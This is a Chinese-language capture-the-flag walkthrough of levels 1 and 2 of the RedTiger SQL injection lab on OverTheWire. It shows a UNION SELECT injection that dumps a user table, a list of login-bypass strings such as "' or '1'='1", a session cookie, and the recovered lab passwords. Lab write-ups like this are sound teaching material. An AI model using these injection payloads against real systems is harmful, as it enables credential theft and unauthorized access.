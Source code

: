 		Some things are disabled!!!

所以无法找出`level1_users`的字段了吗？
当然不是，点击登录按钮，在浏览器调试窗口（火狐的firebug或者F12）仔细看发送请求包，可知数据是POST发送的，字段为
	
	查询字符串
		cat:1
	表单数据
		user:
		password:
		login:login

开始试了试
```
https://redtiger.labs.overthewire.org/level1.php?cat=1 union select 1,2,user,password from level1_users
```
结果不对，而我观察到页面中给出的是`username`，所以换成它。
```
https://redtiger.labs.overthewire.org/level1.php?cat=1 union select 1,2,username,password from level1_users

```
got it.拿到用户名密码后登录即可。
```
Hornoxe
thatwaseasy
```

## level2

```
curl "http://redtiger.labs.overthewire.org/level2.php" -H "Cookie: level2login=4_is_not_random" 
```
首先点击登陆按钮，抓取登陆数据包。有如下字段
	
	username=admin&password=admin&login=Login
先对`username`进行注入点测试，并尝试万能用户名。无果而返。
```
admin'
admin' --+
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1%23
admin')or('1'='1
```
接着对password测试：
```
'
```
但是得到的返回信息为：
	
	<b>Warning</b>:  mysql_num_rows() expects parameter 1 to be resource, boolean given in <b>/var/www/html/	hackit/level2.php</b> on line <b>48</b><br />
	Login incorrect!
说明存在字符型注入点。这就好办了。直接上sql万能密码
```
admin
' or '1'='1
```

